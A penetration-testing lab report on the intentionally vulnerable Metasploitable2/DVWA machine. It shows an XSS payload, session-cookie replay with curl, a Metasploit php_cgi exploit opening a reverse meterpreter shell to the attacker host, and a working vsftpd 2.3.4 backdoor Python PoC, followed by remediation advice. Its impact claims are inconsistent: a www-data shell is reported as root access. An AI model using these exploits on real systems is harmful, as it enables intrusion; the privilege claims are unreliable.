



# Advanced Exploitation Lab

---

## Objective

Perform a **multi-stage exploit chain (XSS → Session Hijacking → RCE)** on a vulnerable target and demonstrate **Exploit-DB PoC customization** with proper documentation and reporting.

---

## Environment Setup

### Target Machine (Metasploitable2)

- IP Address: `192.168.198.130`
    
- Network: NAT
    

```bash
nmap -sS -sV -p- 192.168.198.130
```

---

<p align="center">
  <br/>
  <b>Nmap Full Scan</b>
</p>

---

### Attacker Machine (Kali Linux)
- IP Address: `192.168.198.128`

```bash
sudo systemctl start postgresql
msfdb init
searchsploit -u
```

---

## Step 1: Exploit Chain Execution (XSS → RCE)

---
### Phase 1: XSS Injection (DVWA)

**Vulnerability Location**

- Module: **XSS (Reflected)**
- URL:

`http://192.168.198.130/dvwa/vulnerabilities/xss_r/`

---

**Payload Used**

```html
<script>alert('XSS')</script>
```

**Execution Steps**

1. Navigated to **XSS (Reflected)** module
2. Entered the payload in the input field
3. Submitted the request

<p align="center">
  <br/>
  <b>XSS Payload Injection</b>
</p>

---
### Result

- JavaScript payload executed successfully
- Alert box displayed in the browser
- Confirms presence of XSS vulnerability

<p align="center">
  <br/>
  <b>XSS Execution Alert</b>
</p>

---
---
### Phase 2: Session Capture

Following the successful execution of the XSS payload in **Phase 1**, the session cookie was extracted directly from the browser storage.

![[session_cookie.png.png]]

---
### Captured Session Details

```js
PHPSESSID=7c23443fb6cbf861fe4bfe89558df16e  
security=low
```
---
### Explanation

- The XSS payload executed in the browser (Phase 1)
- Since cookies are accessible via JavaScript, the session token can be retrieved
- Browser developer tools confirm that:
    - `HttpOnly = false` → JavaScript can access cookies
    - `Secure = false` → cookie sent over HTTP
- This makes the application vulnerable to **session hijacking**

---

### Result

- Session cookie successfully obtained from browser
- No protection mechanisms (HttpOnly/Secure) in place
- Confirms vulnerability in session management

---
---

### Phase 3: Session Hijacking

Using the captured session cookie from Phase 2, unauthorized access to the application was performed.

```bash
curl -b "PHPSESSID=7c23443fb6cbf861fe4bfe89558df16e; security=low" http://192.168.198.130/dvwa/
```

---
### Execution Steps

1. Copied session cookie from browser storage
2. Injected cookie into HTTP request
3. Sent request to DVWA without authentication

**Output**

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

        <head>
                <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />

                <title>Damn Vulnerable Web App (DVWA) v1.0.7 :: Welcome</title>

                <link rel="stylesheet" type="text/css" href="dvwa/css/main.css" />

                <link rel="icon" type="\image/ico" href="favicon.ico" />

                <script type="text/javascript" src="dvwa/js/dvwaPage.js"></script>

        </head>

        <body class="home">
                <div id="container">

                        <div id="header">

                                

                        </div>

                        <div id="main_menu">

                                <div id="main_menu_padded">
                                <ul><li onclick="window.location='.'" class="selected"><a href=".">Home</a></li><li onclick="window.location='instructions.php'" class=""><a href="instructions.php">Instructions</a></li><li onclick="window.location='setup.php'" class=""><a href="setup.php">Setup</a></li></ul><ul><li onclick="window.location='vulnerabilities/brute/.'" class=""><a href="vulnerabilities/brute/.">Brute Force</a></li><li onclick="window.location='vulnerabilities/exec/.'" class=""><a href="vulnerabilities/exec/.">Command Execution</a></li><li onclick="window.location='vulnerabilities/csrf/.'" class=""><a href="vulnerabilities/csrf/.">CSRF</a></li><li onclick="window.location='vulnerabilities/fi/.?page=include.php'" class=""><a href="vulnerabilities/fi/.?page=include.php">File Inclusion</a></li><li onclick="window.location='vulnerabilities/sqli/.'" class=""><a href="vulnerabilities/sqli/.">SQL Injection</a></li><li onclick="window.location='vulnerabilities/sqli_blind/.'" class=""><a href="vulnerabilities/sqli_blind/.">SQL Injection (Blind)</a></li><li onclick="window.location='vulnerabilities/upload/.'" class=""><a href="vulnerabilities/upload/.">Upload</a></li><li onclick="window.location='vulnerabilities/xss_r/.'" class=""><a href="vulnerabilities/xss_r/.">XSS reflected</a></li><li onclick="window.location='vulnerabilities/xss_s/.'" class=""><a href="vulnerabilities/xss_s/.">XSS stored</a></li></ul><ul><li onclick="window.location='security.php'" class=""><a href="security.php">DVWA Security</a></li><li onclick="window.location='phpinfo.php'" class=""><a href="phpinfo.php">PHP Info</a></li><li onclick="window.location='about.php'" class=""><a href="about.php">About</a></li></ul><ul><li onclick="window.location='logout.php'" class=""><a href="logout.php">Logout</a></li></ul>
                                </div>

                        </div>

                        <div id="main_body">


<div class="body_padded">

        <h1>Welcome to Damn Vulnerable Web App!</h1>

        <p>Damn Vulnerable Web App (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment.</p>

                <h2> WARNING! </h2>

                <p>Damn Vulnerable Web App is damn vulnerable! Do not upload it to your hosting provider's public html folder or any internet facing web server as it will be compromised. We recommend downloading and installing <a href="http://hiderefer.com/?http://www.apachefriends.org/en/xampp.html" target="_blank">XAMPP</a> onto a local machine inside your LAN which is used solely for testing.</p>

        <h2>Disclaimer</h2>

        <p>We do not take responsibility for the way in which any one uses this application. We have made the purposes of the application clear and it should not be used maliciously. We have given warnings and taken measures to prevent users from installing DVWA on to live web servers. If your web server is compromised via an installation of DVWA it is not our responsibility it is the responsibility of the person/s who uploaded and installed it.</p>

        <h2>General Instructions</h2>

        <p>The help button allows you to view hits/tips for each vulnerability and for each security level on their respective page.</p>
</div>
                                <br />
                                <br />


                        </div>

                        <div class="clear">
                        </div>

                        <div id="system_info">
                                <div align="left"><b>Username:</b> admin<br /><b>Security Level:</b> low<br /><b>PHPIDS:</b> disabled</div>
                        </div>

                        <div id="footer">

                                <p>Damn Vulnerable Web Application (DVWA) v1.0.7</p>

                        </div>

                </div>

        </body>

</html>
```

---

### Proof of Session Hijacking

![[session_hijack_proof.png|session_hijack_proof.png]]
 

The captured session cookie was reused in an HTTP request without providing credentials. The server responded with an authenticated page showing:

- Username: admin
- Security Level: low

This confirms that the application relies solely on session cookies for authentication and does not validate session ownership, leading to successful session hijacking.

---

### Explanation

- The application relies solely on session cookies for authentication
- No additional validation (IP binding, session regeneration) is implemented
- Server accepts reused session as valid

---
### Result

- Successfully accessed authenticated session
- Login bypass achieved without credentials
- Confirms broken session management

---
### Key Observation

- `HttpOnly = false` → vulnerable to XSS-based theft
- `Secure = false` → transmitted over HTTP
- No session binding or validation

---

### Role in Exploit Chain

```
XSS Execution (Phase 1) → Cookie Extraction → Session Hijacking → Unauthorized Access
```

---

### Outcome

- Session cookie successfully extracted
- Unauthorized access achieved
- Established authenticated **foothold for further exploitation (RCE phase)**

---
---

### Phase 4: Remote Code Execution (RCE)

Following successful **session hijacking in Phase 3**, the attacker proceeds to achieve **remote code execution** on the target system.

---

### Exploitation Method

An attempt was made to exploit a web-based vulnerability using Metasploit to gain remote shell access.

```rb
msfconsole  
use exploit/multi/http/php_cgi_arg_injection  
set RHOSTS 192.168.198.130  
set RPORT 80  
set LHOST 192.168.198.128  
set payload php/meterpreter/reverse_tcp  
exploit
```


![[rce_payload.png|rce_payload.png|941]]

 **Run the exploit we made above**
```rb
run
```

**We Got the Meterpreter Session**
```rb
meterpreter > shell
Process 5699 created.
Channel 0 created.
/bin/bash -i
bash: no job control in this shell
www-data@metasploitable:/var/www$ whoami
www-data
www-data@metasploitable:/var/www$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@metasploitable:/var/www$ hostname
metasploitable
www-data@metasploitable:/var/www$ 
```

**Screenshot of Meterpreter Session**
![[meterpreter_session.png|meterpreter_session.png]]

---
### Explanation

- The attacker leverages authenticated access obtained from **Phase 3**
- A vulnerable web component is targeted for remote code execution
- A reverse shell payload is delivered to the attacker machine
- Meterpreter session is established upon successful exploitation

---
## Full Exploit Chain

XSS → Cookie Theft → Session Hijacking → Service Exploit → Root Shell Access

---

### Impact

- Full system compromise
- Remote command execution
- Privilege level: **root**
- Potential for persistence and lateral movement

---

### Exploit Chain Log

| Exploit ID | Description                      | Target IP       | Status  | Payload             |
| ---------- | -------------------------------- | --------------- | ------- | ------------------- |
| 004        | XSS → Session Hijack → RCE Chain | 192.168.198.130 | Success | Meterpreter / Shell |

---

### Final Outcome

- Successfully demonstrated multi-stage exploitation
- Achieved remote code execution
- Verified full system access
- Completed exploit chain from client-side to server compromise
---
## Step 2: Exploit-DB PoC Customization

---
### Phase 1: Vulnerability Identification

- Service: vsftpd
- Version: 2.3.4
- CVE: CVE-2011-2523
- Type: Backdoor Command Execution

---
### Phase 2: Exploit Logic

The vulnerability is triggered when a specially crafted username containing `:)` is sent during FTP authentication.  
This activates a hidden backdoor service on port **6200**, allowing remote command execution.

---
### Phase 3: Modified Python PoC

```python
import socket  
import time  
  
TARGET = "192.168.198.130"  
FTP_PORT = 21  
BACKDOOR_PORT = 6200  
  
# Trigger backdoor  
ftp = socket.socket()  
ftp.connect((TARGET, FTP_PORT))  
ftp.send(b"USER exploit:)\r\n")  
ftp.send(b"PASS exploit\r\n")  
  
print("[+] Backdoor triggered")  
  
time.sleep(2)  
  
# Connect to shell  
shell = socket.socket()  
shell.connect((TARGET, BACKDOOR_PORT))  
  
shell.send(b"id\n")  
response = shell.recv(1024)  
  
print(response.decode())
```

---
### Phase 4: Execution

```python
python3 exploit.py
```


![[poc_execution.png|poc_execution.png]]

---
### Phase 5: Output

```rb
uid=0(root) gid=0(root)
```

---
### Phase 6: Customization Summary (50 Words)

The exploit was customized by updating the target IP address and defining service-specific ports. A delay was introduced to ensure the backdoor service initializes before connection. The script was structured into stages for clarity, and command execution logic was added to verify successful exploitation, improving reliability within the lab environment.

---
## Step 3: Reporting Deliverable

---

### Title

**Chained Exploit on Web Server**

---

### Executive Summary

A multi-stage exploit chain was identified on the target system (192.168.198.130). The attack began with a Cross-Site Scripting (XSS) vulnerability, enabling session cookie extraction and hijacking. This was followed by exploitation of a vulnerable FTP service (vsftpd 2.3.4), resulting in remote code execution and root-level access.

---

### Technical Findings

#### Finding 1: Cross-Site Scripting (XSS)

- Type: Reflected XSS
    
- Location: `/dvwa/vulnerabilities/xss_r/`
    
- Impact: Client-side code execution
    

---

#### Finding 2: Session Hijacking

- Session cookie accessible via JavaScript
    
- No HttpOnly or Secure flags
    
- Session reused without validation
    

---

#### Finding 3: Remote Code Execution (RCE)

- Service: vsftpd 2.3.4
    
- Port: 21
    
- Vulnerability: Backdoor command execution
    
- Impact: Root shell access
    

---

### Attack Chain

```text
XSS → Cookie Theft → Session Hijacking → vsftpd Exploit → Root Access
```

---

### Evidence

- XSS payload execution
    
- Session cookie extraction
    
- Authenticated access without login
    
- Root shell via vsftpd
    

---

### Remediation

1. Implement input validation and output encoding
    
2. Enable HttpOnly and Secure flags for cookies
    
3. Regenerate session IDs after login
    
4. Remove or update vulnerable services (vsftpd 2.3.4)
    
5. Restrict unnecessary open ports
    

---

### Developer Email (100 Words)

```text

Subject: Critical Security Assessment Findings – Immediate Action Required
---

Dear Development Team,

A security assessment was conducted on the web application using OWASP WSTG and PTES methodologies.

The assessment identified multiple vulnerabilities, including 2 critical and 3 high-risk issues. These weaknesses significantly impact the security posture of the application.

Exploitation of these vulnerabilities may lead to account takeover, unauthorized data access, and potential financial loss. The overall risk rating for the application is classified as high.

Immediate remediation is required. It is recommended to prioritize fixing critical vulnerabilities, implement secure coding practices, and enhance input validation and session management mechanisms.

Please confirm once remediation is completed so verification testing can be performed.

Regards,
Security Team
```

---

### Final Outcome

- XSS vulnerability exploited
    
- Session hijacking successfully performed
    
- Remote code execution achieved
    
- Root-level access obtained
    
- Full exploit chain validated end-to-end
    

---
